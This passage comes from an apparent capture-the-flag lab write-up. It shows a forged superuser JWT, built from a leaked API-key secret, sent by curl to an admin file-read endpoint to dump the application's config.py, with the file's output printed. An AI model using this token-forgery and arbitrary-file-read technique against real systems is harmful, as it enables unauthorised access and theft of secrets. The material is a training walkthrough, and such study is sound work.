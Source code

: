```bash
            f.close()
    except:
        raise HTTPException(status_code=400, detail="Unknown Error")

    return {"result": "success"}
```

## Remote Code Execution

According to the application's configuration, the JWT secret is the API key from the environment variables: `68b329da9893e34099c7d8ad5cb9c940`.

```bash
$ filename=$(echo -n '/home/htb/app/core/config.py' | base64 -w 0); curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename | jq -r '.file'
from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator
from typing import List, Optional, Union

import os
from enum import Enum


class Settings(BaseSettings):
    API_V1_STR: str = "/api/v1"
    JWT_SECRET: str = os.environ['API_KEY']
    ALGORITHM: str = "HS256"

    # 60 minutes * 24 hours * 8 days = 8 days
    ACCESS_TOKEN_EXPIRE_MINUTES: int = 60 * 24 * 8

    # BACKEND_CORS_ORIGINS is a JSON-formatted list of origins
    # e.g: '["http://localhost", "http://localhost:4200", "http://localhost:3000", \
    # "http://localhost:8080", "http://local.dockertoolbox.tiangolo.com"]'
    BACKEND_CORS_ORIGINS: List[AnyHttpUrl] = []

    @validator("BACKEND_CORS_ORIGINS", pre=True)
    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:
        if isinstance(v, str) and not v.startswith("["):
            return [i.strip() for i in v.split(",")]
        elif isinstance(v, (list, str)):
            return v
        raise ValueError(v)

    SQLALCHEMY_DATABASE_URI: Optional[str] = "sqlite:///uhc.db"
    FIRST_SUPERUSER: EmailStr = "root@ippsec.rocks"

    class Config:
        case_sensitive = True


settings = Settings()
```
